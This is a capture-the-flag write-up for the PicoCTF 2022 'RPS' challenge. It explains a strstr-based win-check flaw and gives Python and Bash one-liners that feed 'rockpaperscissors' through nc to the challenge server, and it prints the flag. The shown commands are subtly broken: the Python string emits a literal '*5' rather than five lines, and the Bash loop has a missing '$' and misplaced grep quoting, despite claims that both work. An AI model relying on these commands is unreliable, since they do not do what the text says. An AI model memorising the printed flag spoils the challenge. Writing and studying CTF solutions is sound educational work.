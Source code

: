# PicoCTF 2022

```bash
Name: RPS
Category: Binary Exploitation
Points: 300
```

## Summary

- The binary uses faulty checks for win condition with a function named `strstr` which in C locates a substring in the inputted string. See [this](https://man7.org/linux/man-pages/man3/strstr.3.html) link for more concise explanation.

- In lines 100-107, we can see the implementation of `strstr` function that checks if our played turn (*input string*) is in the `loses` array that is defined in line 18 of the source code. If the inputted string is a substring of `loses` array, we win, if not we lose.
- Challenge description hints that we need to win `5` times to get the flag.
- This challenge does not have binary to be downloaded.

## Code Snippet

### Variable definition

![Vars](./img/hands_and_loses.png)

### Faulty Condition

![Win condition](./img/fauly_condition.png)

## Solution

1. First, we must launch the instance so we can see the downloadable source code and we can download it using `wget`.

    ![Launch Instance](./img/source_code.png)

    Command: `wget https://[URL GOES HERE]/game-redacted.c`
    ![Download src](./img/downloaded_source_using_wget.png)

2. Knowing that we just need to include all playable hands to win and we need to win `5` times to get the flag, we can easily do this using `python`and connect to the remote instance using `netcat` (*nc*).

    Using Python

    Command: `python3 -c "print('1\nrockpaperscissors\n*5'); print('2\n')" | nc saturn.picoctf.net [PORT] | grep -oE "picoCTF{.*?}" --color=none | tee flag.txt`

   - Explanation

        Python output:

        ```C
        // To play the game we need to input 1 and to exit we need to enter 2.
        1
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        rockpaperscissors
        2
        ```

    Explanation (continuation): Pipes the output of our `python` script to the input of our `nc` connection and filters the output with regular expression matching the string with `picoCTF{...}` and save the output to a file named `flag.txt`

    ![Python PoC](./img/one_liner_poc.png)

    Using Bash

    Command: `for i in {1..5}; do echo "1\nrockpaperscissors\n"; if [ i -eq 5 ]; then echo "2\n"; fi; done | nc saturn.picoctf.net [PORT] | grep -oE "picoCTF{.*?} | tee flag.txt"`

    Explanation: This also achieves the same output that we want. We print 5 `rockpaperscissors` and if `i` is equal to `5` we exit the program and grab the flag from the `nc` connection output and save it to a file named `flag.txt`.

    ![Bash PoC](./img/another_one_liner_poc_using_bash.png)

3. Submit the flag and get you points!

### Flag

Flag: `picoCTF{50M3_3X7R3M3_1UCK_B69E01B8}`

#### Feedbacks

Note: *if there are any mistakes/errors in the explanation or anything in general feel free to dm me at Twitter: @hambyhaxx. I will correct and update the contents of this writeup. Thank you for reading!*
